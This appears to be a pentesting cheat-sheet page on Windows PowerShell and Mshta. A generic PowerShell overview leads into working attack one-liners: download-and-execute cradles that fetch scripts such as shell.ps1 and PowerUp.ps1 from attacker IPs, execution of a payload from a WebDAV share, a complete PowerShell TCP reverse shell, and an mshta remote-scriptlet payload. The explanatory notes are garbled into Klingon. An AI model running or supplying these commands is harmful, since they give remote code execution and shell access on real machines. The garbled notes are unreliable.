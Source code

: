 ### Advanced Usage

Powershell provides a wide range of advanced features and capabilities. Here are some examples:

- **Remote administration**: Powershell can be used to remotely manage and administer Windows systems. It supports remote execution of commands and scripts, allowing administrators to perform tasks on multiple machines simultaneously.

- **Script execution**: Powershell scripts can be executed in various ways, including running them directly from the command line, scheduling them to run at specific times, or embedding them in other scripts or applications.

- **Module system**: Powershell supports the use of modules, which are collections of functions and scripts that can be imported and used in other scripts. This allows users to extend the functionality of Powershell and reuse code.

- **PowerShell Gallery**: The PowerShell Gallery is a repository of Powershell modules and scripts that can be downloaded and used by the community. It provides a convenient way to discover and share Powershell resources.

### Conclusion

Powershell is a versatile and powerful tool for system administration and automation on Windows systems. Its extensive set of commands and features make it a valuable asset for both system administrators and hackers. By mastering Powershell, you can streamline your workflow, automate repetitive tasks, and gain greater control over Windows systems.
```bash
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.2.0.5/shell.ps1')|iex"
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"
Start-Process -NoNewWindow powershell "IEX(New-Object Net.WebClient).downloadString('http://10.222.0.26:8000/ipst.ps1')"
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/PowerUp.ps1') | powershell -noprofile
```
**powershell.exe** jolchugh network call yIngu'\
Payload written on disk: **NO** (_procmon jatlhlaHbe'chugh yIngu'!_)
```bash
powershell -exec bypass -f \\webdavserver\folder\payload.ps1
```
**svchost.exe** jatlhpu' network call yIngu'\
**WebDAV client local cache** DIvI' yIghItlhpu' payload
```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
**Get more info about different Powershell Shells at the end of this document**

## Mshta

* [From here](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
```bash
mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```
